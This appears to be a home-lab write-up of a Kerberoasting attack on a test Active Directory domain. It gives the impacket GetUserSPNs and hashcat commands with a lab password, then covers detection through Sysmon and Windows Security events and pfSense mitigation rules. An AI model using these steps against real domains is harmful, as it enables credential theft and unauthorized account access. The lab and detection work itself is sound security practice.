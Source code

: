 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## **Overview**

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
   - IP Address: 192.168.10.10
   - Domain: SOC.LAB
   - 
- **Attacker:** Kali 
   - IP Address: 192.168.20.30
## **Objective** 
The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment and attempt to crack the Kerberos TGS hashes to gain unauthorized access to domain accounts.
Following the other attacks, we are already know the credentials from an User and the Active Directory Domain.

## Attack Execution:

- Checked that Kerberos (port 88) is open:
```bash
nc -vz 192.168.10.10 88
```
- Update the default DNS ip to point directly to the Domain Controller.

- Run GetUserSPNs.py from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
```bash
python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
```
Output:

![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

- After that I cracked the Kerberos TGS Hash using hashcat with rockyou.txt, and saved on a cracked.txt file:
```bash
hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
```



## **Monitoring Windows Logs**

I started watching Sysmon Logs Analysis and identified multiple Event ID 3 entries in Sysmon logs, which makes it suspisious, knowing its coming from the same IP, and from external zone (DMZ): 

- All connections originated from IP 192.168.10.10, targeting 192.168.20.30.

- Different ephemeral ports were used, suggesting automated scanning or even communication.

![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)



With that, I went through Windows Logs Security, and found multiple found a large number of **Event ID 4769 – Kerberos Service Ticket Request**, from the same source as well:
- ![kerberos_tickets](https://github.com/user-attachments/assets/9275278e-067c-466c-a2bd-3fc551e18f81)


And as we can see in the screenshots bellow from the logs, the same IP: 192.168.20.30 requested multiple Kerberos Service Tickets (Event ID 4769) for various user accounts in the SOC.LAB domain. This pattern of activity suggests the use of a **Kerberoasting attack**, where the attacker queries the Service Principal Names (SPNs) associated with these accounts to obtain encrypted TGS (Ticket Granting Service) hashes, which we already know he did.

- User Jordan:
- ![Jordan](https://github.com/user-attachments/assets/4aab463d-1130-48ea-affc-d23800dd389f)

- User Candace:
- ![candace_rojas](https://github.com/user-attachments/assets/0fa652ef-089b-4bde-97b4-280412b502bf)

And finally, right after the last Kerberos Service Ticket Request, we see an Event ID 4634 – Logoff, from the user labadmin, so with that, we know whose password was first compromised to successfully request all this content:
- ![logoff](https://github.com/user-attachments/assets/11d039c9-4803-432e-ae34-a427b6db934a)


## **Firewall Rules on pfSense to Mitigate this:**
1- Block Unauthorized Kerberos Requests:
  Screenshot da rule no pfsense....

  This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers, which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

2- Limit External and Internal LDAP Queries:

Screenshot da rule.......

This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed.
